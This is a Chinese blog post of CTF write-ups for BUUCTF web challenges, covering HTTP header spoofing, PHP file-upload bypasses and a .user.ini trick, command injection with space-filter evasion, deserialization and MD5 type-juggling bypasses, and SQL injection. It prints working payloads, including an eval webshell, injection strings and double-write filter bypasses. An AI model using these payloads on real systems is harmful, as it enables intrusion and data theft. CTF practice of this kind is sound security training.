<!--yml
category: 未分类
date: 2022-04-26 14:29:23
-->

# Buuctf部分题解_君陌上的博客-CSDN博客_buuctf

> 来源：[https://blog.csdn.net/weixin_53549425/article/details/120314290](https://blog.csdn.net/weixin_53549425/article/details/120314290)

# [极客大挑战 2019]Http1


老规矩，查看源代码

```
 <!-- Two -->
                    <section id="two" class="wrapper alt style2">
                        <section class="spotlight">
                            <div class="image"></div><div class="content">
                                <h2>小组简介</h2>
                                <p>·成立时间：2005年3月<br /><br />
                                ·研究领域：渗透测试、逆向工程、密码学、IoT硬件安全、移动安全、安全编程、二进制漏洞挖掘利用等安全技术<br /><br />
                                ·小组的愿望：致力于成为国内实力强劲和拥有广泛影响力的安全研究团队，为广大的在校同学营造一个良好的信息安全技术<a style="border:none;cursor:default;" onclick="return false" href="Secret.php">氛围</a>！</p>
                            </div>
                        </section> 
```

发现有一个隐藏的网页secret.php，点击


**注：
1、HTTP Referer是header的一部分，当浏览器发送请求的时候带上Referer，告诉服务器该网页是从哪个页面链接过来的。
2、User Agent，简称 UA，它是一个特殊字符串头，使得服务器能够识别客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等。**
紧接着使用burp抓包

提示浏览器不对，一般访问浏览器的名字都会被设置在UA参数中。如

将其改成

还要调整X-Forwarded-For: 127.0.0.1，然后成功拿到flag


# [极客大挑战 2019]Knife1

启动靶机

打开后发现有一个一句话木马，尝试用蚁剑连接一下

连接成功，发现flag在文件夹/下

# [极客大挑战 2019]Upload1

本题为文件上传，先上传一个php文件

意料之内，然后使用burp抓包，修改Content-Type为image/jpeg，然后


开来不能php文件被拉入黑名单了，使用不常见的文件后缀名phtml绕过

看来<?被过滤掉了，我们换

```
GIF89a? <script language="php">eval($_REQUEST[feng])</script> 
```

上传成功，蚁剑连接

本题得解

# [极客大挑战 2019]PHP1


我们来看下这道题，打开后有提示备份文件，对于备份文件我们可以使用御剑扫描后台目录

下载这个www.zip后发现

有这些文件，首先打开flag.php，发现不是我们想要的flag，所以我们打开class.php，

```
<?php
include 'flag.php';

error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

        }
    }
}
?> 
```

首先我们注意关于username和password都是private，这个在下面的解答中会用到

然后打开index.php观察这个代码，由unserialize()知涉及反序列化，再打开class.php

我们可以知道只有username为admin时且password为100时，才会输出flag
而反序列化后调用_wakeup会直接覆盖输入的用户名。一个简单的办法是直接在class下面创建一个对象然后序列化。由此我们可以构造playload

```
$a= new Name('admin',100);
$b= serialize($a);
var_dump($b); 
```

O:4:“Name”:2:{s:14:“Nameusername”;s:5:“admin”;s:14:“Namepassword”;i:100;}
此时我们需要注意两个点，一个是private属性序列化:%00类名%00成员名，所有要在Name、username、以及password前面加%00，另一个是关于_wakeup函数，因为要绕过wakeup,把Name后的数字改成3，**当反序列化时，若属性个数大于真实属性个数时，则会跳过__wakeup()**，本题得解


# Buuctf__[SUCTF 2019]CheckIn 1

打开题目
发现这是一道问价上传题
打开https://github.com/team-su/SUCTF-2019/tree/master/Web/checkIn，查看源码

```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Upload Labs</title>
</head>

<body>
    <h2>Upload Labs</h2>
    <form action="index.php" method="post" enctype="multipart/form-data">
        <label for="file">文件名：</label>
        <input type="file" name="fileUpload" id="file"><br>
        <input type="submit" name="upload" value="提交">
    </form>
</body>

</html>

<?php

$userdir = "uploads/" . md5($_SERVER["REMOTE_ADDR"]);
if (!file_exists($userdir)) {
    mkdir($userdir, 0777, true);
}
file_put_contents($userdir . "/index.php", "");
if (isset($_POST["upload"])) {
    $tmp_name = $_FILES["fileUpload"]["tmp_name"];
    $name = $_FILES["fileUpload"]["name"];
    if (!$tmp_name) {
        die("filesize too big!");
    }
    if (!$name) {
        die("filename cannot be empty!");
    }
    $extension = substr($name, strrpos($name, ".") + 1);
    if (preg_match("/ph|htacess/i", $extension)) {
        die("illegal suffix!");
    }
    if (mb_strpos(file_get_contents($tmp_name), "<?") !== FALSE) {
        die("&lt;? in contents!");
    }
    $image_type = exif_imagetype($tmp_name);
    if (!$image_type) {
        die("exif_imagetype:not image!");
    }
    $upload_file_path = $userdir . "/" . $name;
    move_uploaded_file($tmp_name, $upload_file_path);
    echo "Your dir " . $userdir. ' <br>';
    echo 'Your files : <br>';
    var_dump(scandir($userdir));
} 
```

PHP判断文件是否为图片的函数为：`exif_imagetype();`
也就是说这个题只能上传。
这里要使用图片马，制作方式详见[图片马的制作](https://blog.csdn.net/weixin_53549425/article/details/118071737?spm=1001.2014.3001.5501)，在这里我问就不赘述了。
注意本题对<?进行了过滤，所以在webshell的选择上应该替换掉<?，
这里有一个我的webshell供大家使用。
`GIF89a? <script language="php">eval($_REQUEST[feng])</script>`

但是发现无法上传，看了大佬博客后有所领悟，需要用到user.ini，这里有一个讲的非常好的[大佬博客](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
简单来说就是：user.ini是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。
**auto_prepend_file 或 auto_append_file**

auto_prepend_file 在页面顶部加载文件
auto_append_file 在页面底部加载文件
什么意思呢，`相当于在每个php页面加上一句 include() ，可以在PHP中加载执行另一个PHP文件。`
`注意，是每个，也就是说只要有 PHP 文件被加载，就会去加载执行这个文件，而且是以 PHP 的方式解析。`
所以，我们上面绕过了了文件验证，上传了一个 .user.ini 文件，再上传一个图片马，让被执行的 PHP 文件去包含执行我们的图片马，就可以用蚁剑连接来得到flag。
1、制作user.ini

```
GIF89a
auto_prepend_file=test.jpg 
```



2、制作图片马
先上传user.ini
再上传图片马


使用蚁剑连接
这里要注意图片马的路径，不然会返回数据为空，本题得解！

# [ACTF2020 新生赛]Exec1

打开题目，这是一道命令注入题，尝试一下
这里要用到命令注入相关知识

`ls（英文全拼：list files）：用于显示指定工作目录下的内容（列出目前工作目录所含之文件及子目录)`
`cat（英文全拼：concatenate）：用于连接文件并打印到标准输出设备上。`
然后浏览目录，输入`127.0.0.1 | ls`，发现只有一个index.php，查看它的上级目录，`127.0.0.1 | ls/`

然后使用cat，`127.0.0.1|cat /flag`，

# [GXYCTF2019]Ping Ping Ping1

发现可以直接ping通，然后查看目录，发现flag.php


空格被过滤掉了，参考了一下大佬博客这里介绍一下绕过空格的姿势

```
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt: $IFS$9 $9指传过来的第9个参数
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过) 
```


发现flag被过滤掉了，这里可以采用拼接的方法
构造playload:`127.0.0.1;a=g;cat$IFS$9la$a.php`


这里我再提供一种方法
**内联函数：将指定的函数体插入并取代每一处调用该函数的地方。
反引号在linux中作为内联执行，执行输出结果。也就是说**

```
cat `ls` 

构造payload /?ip=127.0.0.1;cat$IFS$9`ls` 
```

# [BJDCTF2020]Easy MD5 1


打开题目，出现一个输入框，无论怎么尝试，都没有回显，查看一下响应头，发现了hint。

查看了一下百度，md5函数


```
md5(string, raw) raw 可选，默认为false
true:返回16字符2进制格式
false:返回32字符16进制格式
简单来说就是 true将16进制的md5转化为字符了,如果某一字符串的md5恰好能够产生如’or ’之类的注入语句，就可以进行注入了.
提供一个字符串：ffifdyop
md5后，276f722736c95d99e921722cf9ed621c
转成字符串后： 'or’6 
```

对于MD5($ pass,true)的绕过，在这里提供两种方法提供两个字符串： ffifdyop、129581926211651571912466741651878684928，由于题目有长度限制，所以用第一个。

出现了这个页面，查看源码

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
--> 
```

这段代码要求定义两个变量a,b，且a和b的值不相等，但是a和b经过md5解码后值相等。直接传入ab为数组就行，这是因为 md5 函数不能处理数组。或者传入两个md5开头为0e的字符串。
构造playload:

```
?a=s155964671a&b=s214587387a
或
?a[]=1a&b[]=2 
```

跳转页面，出现了一串代码

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

与上面那段代码原理一致，直接构造payload

```
param1[]=1&param2[]=2 
```

本题得解！


# [ACTF2020 新生赛]BackupFile1

打开题目
很明显这是一道网站备份文件的题，可以使用dirsearch扫描

发现了index.php.bak，打开后发现是代码审计

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```

简单的弱类型绕过
php中两个等于号是弱等于
取str的123与key进行比较，（弱比较：如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行，在比较时该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。所以直接传入key=123就行）

本题得解

# [GXYCTF2019]BabySQli

这是一道sql注入题
在这里试了很多方式都进不去，查看源码
发现有个search.php，打开后发现有一串字符串

```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5--> 
```

这个是base32编码方式，对其解码

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw== 
```

末尾等号是两个，是base64编码方式

```
select * from user where username = '$name' 
```

这提示我们要用select语句，常规的猜测字段的语句为

```
1' union select 1,2# 
```

可以测出user这个表一共有三列，猜测分别为id，username，password（经验）。
在这里，这道题的用户名和密码分开检验，也就是说它是先检验username，把username对应的所有字段都查出来后，再检验密码能不能和查出来的密码对上，检验密码的过程可能会有一个md5的加密。

我们在注入的时候，发现会回显“wrong user!”，但当我们是测试admin用户时却回显wrong pass!(密码错误)，很明显这里绝对存在admin这个账号。此时，我们的思路就是登上admin用户或者得到admin的密码。

**这里有个重要的知识，联合一个不存在的数据时，联合查询会构造出一个虚拟的数据，我们可以利用这个虚拟的数据登录，而使用联合查询也是最开始search.php相耦合**
我们在用户名处输入1’ union select 1,‘admin’,‘202cb962ac59075b964b07152d234b70’#（202cb962ac59075b964b07152d234b70为123的md5加密值，此题由于过滤了括号，所以不能用md5()函数）。在密码处输入我们自定义的密码123，即可绕过检验，成功登陆admin账户，得到flag。
这里要使用MD5的原因需要查看其在github上的源码


# [极客大挑战 2019]BabySQL

这是一道sql注入题，先使用万能密码。
发现or被过滤掉了，于是我们进一步测试，发现过滤了好多关键字，比如or, select,where, union。应该是用函数replace给我们替换成了空白字符

知道了这样，我们就进行绕过，于是拼接字符，无法用order by 1来判断字段个数，我们只有使用联合查询看他是否能查出来，应该列数不太多，于是我们构造

pyload：?username=admin&password=admin’ uunionnion sselectelect 1,2%23
**这里是利用了双写绕过，它的原理是双写代码，例如:uniunionon，浏览器会过滤掉其中一个union，刚好还剩下另一个union，实现绕过。**

报错列不一样，于是我们继续利用联合查询的性质猜测列数

有三列，然后我们开始查表：?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(table_name)ffromrom infoorrmation_schema.tables wwherehere table_schema=database()%23

有两张表，接下来该爆破字段了
?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(column_name)ffromrom infoorrmation_schema.columns wwherehere table_name=‘b4bsql’%23

有三列，分别是id，username，password，这也是大多数sql注入中表的格式。 接下来我们就开始爆数据
?username=admin&password=admin’ uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql%23

然后我们的flag就呈现到自己的面前了，

本题得解

# [极客大挑战 2019]LoveSQL1

打开题目

很明显这是一道SQL注入漏洞的题，我们试一下单引号闭合，发现可以

出现报错
判断列数

```
admin' order by 4# 
```


```
admin' order by 3# 
```


说明有3列，然后爆破数据库


数据库名为geek

下一步爆破表名

```
-admin' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() # 
```


爆破列

最后爆破username以及password

```
-admin' union select 1,group_concat(username),group_concat(password) from  l0ve1ysq1 # 
```

